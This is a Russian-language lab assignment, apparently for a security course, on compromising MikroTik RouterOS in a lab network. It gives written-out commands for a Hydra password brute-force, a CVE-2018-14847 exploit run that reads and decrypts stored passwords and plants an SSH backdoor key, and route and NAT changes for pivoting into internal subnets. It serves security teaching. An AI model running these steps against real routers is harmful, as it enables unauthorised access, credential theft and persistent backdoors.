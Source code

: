 
## Цель работы

Освоить методы несанкционированного доступа к защищённым сетевым сегментам путём эксплуатации уязвимостей и слабых настроек в оборудовании MikroTik RouterOS.

---

## Задачи работы

- Провести подбор пароля администратора к внешнему маршрутизатору MikroTik (192.168.0.116) с использованием утилиты `Hydra`.
    
- Эксплуатировать уязвимость CVE-2018-14847 на внутреннем маршрутизаторе MikroTik (10.10.1.2) для чтения конфиденциальных файлов и записи вредоносных данных.
    
- Перенастроить таблицу маршрутизации на скомпрометированном MikroTik для обеспечения доступа к подсетям Security (10.10.3.0/24) и Internal Servers (10.10.5.0/24).

---

## Теоретическая часть  
### 1. Уязвимости сетевой периметрии  
**Сетевое оборудование** (маршрутизаторы, коммутаторы) часто становится мишенью атак из-за:  
- Использования стандартных учётных данных (`admin:admin`)  
- Несвоевременного обновления ПО  
- Наличия критических уязвимостей в прошивках  

**MikroTik RouterOS** — популярная ОС для маршрутизаторов, подверженная ряду уязвимостей:  
- **CVE-2018-14847**: Позволяет читать/писать файлы без аутентификации через WinBox (порт 8291).  
- **CVE-2019-3943**: Уязвимость в API (порт 8728) для выполнения команд.  

### 2. Техники атаки  
#### 2.1 Подбор паролей (Brute-forcing)  
**Принцип:** Систематическая проверка комбинаций логин/пароль.  
**Уязвимые протоколы:**  
- FTP (21), SSH (22), Telnet (23)  
- WinBox (8291), WebFig (80/443)  

**Инструменты:**  
- `Hydra`: Параллельный подбор через несколько протоколов.  
- `Medusa`: Альтернатива с поддержкой модулей.  

#### 2.2 Эксплуатация CVE-2018-14847  
**Этапы:**  
1. **Чтение конфигурации:** Получение файла `/flash/rw/store/user.dat` с паролями.  
2. **Запись файлов:** Размещение бэкдора через произвольную запись.  
3. **RCE:** Цепочка: File Write → SSH-ключ → Полный доступ.  

#### 2.3 Манипуляция маршрутами  
**Цель:** Перенаправление трафика в закрытые подсети (Security: `10.10.3.0/24`, Internal: `10.10.5.0/24`).  
**Методы:**  
- Добавление статических маршрутов  
- Изменение политик NAT  
- Настройка VPN-туннелей  

---

## Ход выполнения  

### Шаг 1: Подбор пароля к MikroTik (192.168.0.116)  
**Цель:** Получить доступ через WinBox/SSH.  
1. Сканирование портов:  
```bash  
nmap -p 22,8291 192.168.0.116  
```  
2. Подбор пароля к WinBox (порт 8291):  
```bash  
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.0.116 -s 8291 -t 64 http-post-form "/:username=^USER^&password=^PASS^:F=invalid"  
```  
3. При успехе: подключение через WinBox с найденными данными.  

### Шаг 2: Эксплуатация CVE-2018-14847 (10.10.1.2)  
**Цель:** Чтение системных файлов и получение RCE.  
1. Скачать эксплойт:  
```bash  
git clone https://github.com/BasuCert/WinboxPoC  
```  
2. Чтение файла с паролями:  
```bash  
python3 winboxPOC.py read 10.10.1.2 /flash/rw/store/user.dat  
```  
3. Расшифровка паролей:  
```bash  
python3 winboxPOC.py decrypt <хэш_из_user.dat>  
```  
4. Запись SSH-ключа:  
```bash  
python3 winboxPOC.py write 10.10.1.2 /id_rsa ./backdoor_key  
```  
5. Доступ по SSH:  
```bash  
ssh -i backdoor_key admin@10.10.1.2  
```  

### Шаг 3: Переконфигурация маршрутов  
**Цель:** Доступ к подсетям `10.10.3.0/24` и `10.10.5.0/24`.  
1. В консоли MikroTik:  
```bash  
/ip route add dst-address=10.10.3.0/24 gateway=10.10.1.1  
/ip route add dst-address=10.10.5.0/24 gateway=10.10.1.1  
```  
2. Проверка доступности:  
```bash  
ping 10.10.3.10  
traceroute to 10.10.5.20  
```  
3. (Опционально) Настройка NAT для проброса портов:  
```bash  
/ip firewall nat add chain=dstnat dst-address=10.10.1.2 action=dst-nat to-addresses=10.10.5.50  
```  

---

## Форма отчёта  
1. **Результаты сканирования портов** (nmap).  
2. **Вывод Hydra** с найденными учётными данными.  
3. **Скриншоты:**  
   - Чтение `user.dat` через эксплойт.  
   - Успешный вход по SSH.  
   - Таблица маршрутов MikroTik.  
4. **Выводы:**  
   - Какие пароли были использованы в системе?  
   - Как уязвимость CVE-2018-14847 упрощает компрометацию?  
   - Риски неправильной настройки маршрутизации.  

---

## Вопросы для самоконтроля  
1. Почему MikroTik часто подвергается атакам?  
2. Как защитить RouterOS от CVE-2018-14847?  
3. Чем опасен статический маршрут в закрытую подсеть?  
4. Альтернативы Hydra для подбора паролей.  
5. Как обнаружить несанкционированные изменения в таблице маршрутизации?  
6. Почему WinBox-порт (8291) критичен для безопасности?  
